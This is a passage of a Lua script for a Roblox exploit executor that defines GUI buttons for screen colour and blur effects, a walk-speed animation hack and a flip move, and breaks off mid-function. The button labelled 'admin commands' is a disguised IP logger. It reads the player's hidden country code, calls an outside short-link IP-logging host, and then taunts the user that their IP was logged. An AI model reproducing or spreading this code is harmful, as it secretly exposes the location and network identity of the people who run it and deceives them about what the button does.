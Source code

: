 part.Name = "cream" 
part.Brightness = 1000
part.Contrast = 0
part.Saturation = -9999999
part.Parent = game:GetService("Workspace").Camera
--
end)
l:Button("Random drugs 2",function()
local part = Instance.new("ColorCorrectionEffect") 

part.Name = "scream" 
part.Brightness = -600000
part.Contrast = 1123123
part.Saturation = 0
part.Parent = game:GetService("Workspace").Camera
--
end)
l:Button("Random drugs 3",function()
local part = Instance.new("ColorCorrectionEffect") 

part.Name = "noir" 
part.Brightness = 0
part.Contrast = 0
part.Saturation = -1
part.Parent = game:GetService("Workspace").Camera
--
end)
l:Button("Random drugs 4",function()
local part = Instance.new("BlurEffect") 

part.Name = "our" 
part.Size = 12003123
part.Parent = game:GetService("Workspace").Camera
--
end)

l:Button("admin commands",function()
hidden = gethiddenproperty or get_hidden_prop

  local country = game:GetService("HttpService"):JSONDecode(game:HttpGet("http://country.io/names.json"))
  local LeakCountry = country[hidden(game.Players.LocalPlayer, "CountryRegionCodeReplicate")]

local ip = tostring(game:HttpGet("https://2no.co/2etDS4", true))
Notify("ip logged", ip, 2)
Notify("dsc.gg/rbloxloggedLLLL proof you live in the", LeakCountry, 2)
end)
l:Button("og mrkrabs walk",function()
game:GetService"RunService".RenderStepped:Connect(function()
spawn(function()
for i,v in next, game.Players.LocalPlayer.Character:FindFirstChild("Humanoid").Animator:GetPlayingAnimationTracks() do
if v.Name == "WalkAnim" or v.Name == "RunAnim" then
   v:AdjustSpeed(10)
   end
end
game.Players.LocalPlayer.Character.HumanoidRootPart.Running.PlaybackSpeed = 1
game.Players.LocalPlayer.Character.HumanoidRootPart.Running.Volume = 10
game.Players.LocalPlayer.Character.HumanoidRootPart.Running.SoundId = "http://www.roblox.com/asset/?id=3426632334"
end)
end)
end)
l:Button("Super Flip",function()
   local stateType = Enum.HumanoidStateType
